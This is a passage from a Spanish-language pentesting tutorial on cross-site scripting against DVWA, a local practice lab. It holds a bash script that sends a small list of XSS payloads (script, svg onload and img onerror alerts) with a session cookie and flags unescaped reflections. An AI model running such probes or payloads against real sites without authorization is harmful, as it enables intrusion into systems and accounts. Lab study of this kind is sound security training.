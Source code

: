 * **Fuente** (hash/query), **sumidero** (sink), payload que funciona.

---

## 7) Automatización ligera (opcional)

Script básico para probar un conjunto pequeño de payloads en un **parámetro** concreto (Reflected/DOM con query):

```bash
cat > ~/Pentesting/DVWA/xss/xss_probe.sh <<'BASH'
#!/usr/bin/env bash
set -euo pipefail

if [[ $# -lt 2 ]]; then
  echo "Uso: $0 <url-con-__PARAM__> <cookie>" >&2
  echo "Ej: $0 'http://127.0.0.1:8080/vuln/xss_r/?name=__PARAM__' 'PHPSESSID=...; security=low'" >&2
  exit 1
fi

URL_TEMPLATE="$1"
COOKIE="$2"
OUTDIR="${OUTDIR:-$HOME/Pentesting/DVWA/xss/reflected/evidence}"
mkdir -p "$OUTDIR"

mapfile -t PAYLOADS <<'EOF'
<script>alert(1)</script>
"><svg/onload=alert(1)>
</script><script>alert(1)</script>
';alert(1);//
<img src=x onerror=alert(1)>
EOF

i=0
for p in "${PAYLOADS[@]}"; do
  enc=$(python3 -c "import urllib.parse; print(urllib.parse.quote('''$p'''))")
  url=${URL_TEMPLATE/__PARAM__/$enc}
  resp="$OUTDIR/resp_$((++i)).html"
  echo "[+] Probando: $p"
  curl -s "$url" --cookie "$COOKIE" > "$resp"
  # Heurística: ¿se ve el payload sin escapar?
  if grep -Fq "$p" "$resp"; then
    echo "    [*] Reflejado sin escapar: $resp"
  else
    echo "    [ ] No reflejado literal (revisar contexto/encoding): $resp"
  fi
done
BASH
chmod +x ~/Pentesting/DVWA/xss/xss_probe.sh
```
